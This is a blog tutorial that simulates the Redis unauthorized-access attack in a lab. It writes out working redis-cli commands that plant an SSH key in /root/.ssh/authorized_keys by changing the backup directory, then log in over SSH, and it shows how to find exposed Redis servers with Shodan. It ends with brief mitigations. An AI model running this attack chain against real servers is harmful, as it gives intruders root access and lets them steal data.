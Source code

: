 Redis, is an open source, widely popular data structure tool that can be used as an in-memory distributed database, message broker or cache. Since it is designed to be accessed inside trusted environments, it should not be exposed on the Internet. However, some Redis’ are bind to public interface and even has no password authentication protection.

Under certain conditions, if Redis runs with the root account (or not even), attackers can write an SSH public key file to the root account, directly logging on to the victim server through SSH. This may allow hackers to gain server privileges, delete or steal data, or even lead to an encryption extortion, critically endangering normal business services.

The simplified flow of this exploit is:

* Login to a unprotected Redis
* Change it’s backup location to .ssh directory — Write the SSH Keys to new backup location
* Remote connect and login to the target server using SSH key

We should already be familiar how automatic SSH login with private + public keys works.

## Simulation
Now let’s get our feet wet and set up a target machine. We’ll need two machines, they can be real machines, virtual machines, or remote machines (VPS). As long as the attack end is able to ping the target end, we are good.

Environment setup for this example:

* Target Machine: Redis-3.2.11 on Ubuntu
* Attack Machine: Platform you like with Redis (I used Kali)

### Set Up Target Machine:

First, let us set up the target machine with Redis. Download source code by

```
wget http://download.redis.io/releases/redis-3.2.11.tar.gz
```

Extract and build

```
tar xzf redis-3.2.11.tar.gz cd redis-3.2.11 
make
```
After make, we use our favorite editor to open `redis.conf` in `redis-3.2.11` folder. In order to be remotely accessed, we will need to comment out line `bind 127.0.0.1` and disable `protected-mode` as shown below.

![](./img/0_UqCMKzd401p_9xgf.png)

Now fire up Redis with the configuration file we just edited. Note that `redis-server` is in `redis-3.2.11/src`.

```
src/redis-server redis.conf
```

So far, we have finished setting up the target server. Additionally, we should also check if we have `.ssh` folder. If not, we should create it for the attack later.

### Attack Machine:

First, make sure we can ping the target. Then, we will generate a private key and public key for SSHing into the target machine later. Run the following command to generate SSH keys and leave passphrase empty.

```
ssh-keygen -t rsa
```

Next, enter the `.ssh` folder. If you are root user, enter `/.ssh`, otherwise `~/.ssh`, then copy the private key in to `temp.txt`.

```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > temp.txt
```

Some may be wondering that why do we put two blank lines before and after the public key? We will leave that as a mystery for right now if you don’t know :)

![](./img/0_kj5v1UOnDs4_1B-4.png)

Good! So far we have generated a pair a keys, we will need to find a way to smuggle the public key to the Redis server (target machine.)

We are going to use `redis-cli`, the Redis command line interface, to send commands to Redis and read the replies sent by the server directly in the terminal.

Run the following commands in `redis-3.2.11/src` folder. (Or depending where we are, we can always specify the path to the files we use)

```
cat /.ssh/temp.txt | redis-cli -h 203.137.255.255 -x set s-key
```

Here, let’s take a look at the command. We use `-h` flag to specify the remote Redis server IP so that `redis-cli` knows where to connect and send commands. The part after `-x` is saying that we are setting the key in redis named `s-key` with the value in `temp.txt`.

![](./img/0_RXLExaGb28VkI0xO.png)

Yea, we have a key with our SSH key sneaked in! Let’s connect to the Redis and play around its configuration. Use `redis-cli` to connect to the Redis server again.

![](./img/0_ly-kkskrTIJ72LFM.png)

Looking at the above screenshot, we first verify the value of the key `s-key` by using the command `GET s-key`, which is what we want – the public key with two blank lines before and after. Then I tried the command “dir” just to see what it says (kidding). What we actually want to do here is to get the value of “s-key” (SSH public key) stored in the `.ssh` folder so that we can remote SSH login to the target machine whithout having to type the password.

Thus, we will do this:

```
CONFIG GET dir # get your redis directory 
# In the output of above command "/home/xxxx/redis-3.2.11/src" is the directory where redis server is installed. CONFIG SET dir 
/home/xxxx/.ssh # set the backup location to the .ssh folder 
(or) CONFIG SET dir /root/.ssh CONFIG SET dbfilename authorized_keys 
# lastly we back our data containing our "s-key" key-value pair up in the .ssh folder 
save
```

> The authorized_keys file in SSH specifies the SSH keys that can be used for logging into the user account for which the file is configured Source: [ssh.com](https://www.ssh.com/ssh/authorized_keys/)
The screenshot shown above already demonstrates the steps mentioned here.

### Harvest Time
On Attack Machine, try to SSH in the Target Machine using the following command.

```
# command: private key username@server IP 
ssh -i id_rsa username@203.137.255.255
```

![](./img/0_xTWYFYecso8XJKdI.png)

YAS! As we can see, we have a successful auto-login with SSH keys! Voila, we have now completed the attack simulation. 😃

(Smiley face actually means that I’m finally almost done writing this up 😂)

At the end of this section, I would like to show what is Redis’s backup file look like.

![](./img/0_wjEeD2SSdTnymBVT.png)

Notice the unreadable characters? Add “\n\n” before and after the key content was just to be safe and separate it from other “stuff” so that it can be parsed correctly. 👌

## Use Search Engine to find Vulnerable Redis Servers
Alrighty, as I mentioned, we are going to use [Shodan](https://www.shodan.io/) to search servers that has Redis footprint (characteristics).

Let us do a simple search by Redis’ default port.

![](./img/0_ueth-xQWtxJobzwL.png)

Looks like we have 75,665 search results. Aaaaaand guess what! Right down there (not shown but we can see it if we scroll down) there are TONS of host that has NO password protection!! 

This vulnerability was found years ago and still countless of machines are opening up themselves in such an easy way for attackers to have fun in there server…

According to Shodan, there are around **56,000 unprotected** Redis instances in 2015.

![](./img/0_C2n27eAOGFkK79IU.png)

According to ZoomEye, the distribution of the instances is.

![](img/0_m19lcFYeFOhB_Nui.png)

According to ZoomEye, the top ranking countries of these instances are: China, USA, Germany…

![](img/0_hxf9oaOFJVDohZMC.png)

Okay, back to the business. So how do we verify if a server is protected using python? It turns out to be fairly simple.

1. Use socket to connect to the target IP
2. Perform a GET request
3. If the server is unprotected, you GET request will succeed; otherwise it will fail

![](img/0_C4_dcCGWAPWxFbaU.png)

## Mitigation

* Don’t bind to 0.0.0.0
* If you have to, change the default port (6379)
* Set a password (for everything)

Sep 11, 2018 （2018-09-11）

author: Victor Zhu

link: <https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419>
